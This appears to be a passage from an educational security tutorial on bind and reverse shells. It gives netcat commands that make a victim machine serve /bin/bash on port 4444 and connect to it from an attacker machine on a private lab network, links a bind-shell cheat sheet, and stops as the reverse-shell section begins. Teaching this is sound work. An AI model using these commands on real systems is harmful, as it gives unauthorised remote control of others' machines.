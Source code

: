 

### Bind shell

A bind shell is applicable when the attacker’s machine is able to connect directly to the target machine. In that aspect, the target machine is listening to some port for incoming connections, and control is given to the attacking machine upon connection to that port.. For example, we have two machines with Linux OS like this :

![image](https://hackmd.io/_uploads/BJpA6Xfukg.png)

In a bind shell, the victim's machine creates a listening service on a specific port and waits for a connection. To do this using Netcat (nc), we run the following command on the victim's machine which is running Debian like this :

`nc -lvnp 4444 -e /bin/bash`

![image](https://hackmd.io/_uploads/rkdTt7GuJl.png)

Once the victim’s machine is listening, an attacker can connect to it remotely by running the following command from their system:

`nc 192.168.1.21 4444`

![image](https://hackmd.io/_uploads/HJdD5mzdJg.png)

As soon as this command is executed, the attacker gains a fully interactive shell on the victim’s machine, allowing them to execute commands remotely. More payloads to open TCP port to listen are available on this link : 

https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/#python

With Python, we also be able to open a port to listen and perform bind shell 

![image](https://hackmd.io/_uploads/BJ2QiQM_Jl.png)

A bind shell allows remote access by making the victim machine listen for incoming connections. However, because it relies on open ports, it is often blocked by firewalls, making reverse shells a more common method for bypassing security.

### Reverse shell

So we now know about how to connect from the server from the but if firewall or some secured methods are activated on the server. How can we still establish a connection in such cases?

One of the ways to get around this is by making use of a reverse shell. In a reverse shell, the shell is originated from the target system-that is, the victim machine-and connects back to a listening port on the attacker's machine. It is pretty well known among attackers as one of the ways to bypass firewalls, since in this method, the outgoing connection from the victim machine is allowed-which is usually not blocked by network security.

![image](https://hackmd.io/_uploads/SJXmIXfu1g.png)

Firstly, we also have two machines run on any OS. We will know the IP address of the machine that we want to attack. In the picture below, the victim machine have the run Debian OS and have IP address 
192.168.1.21
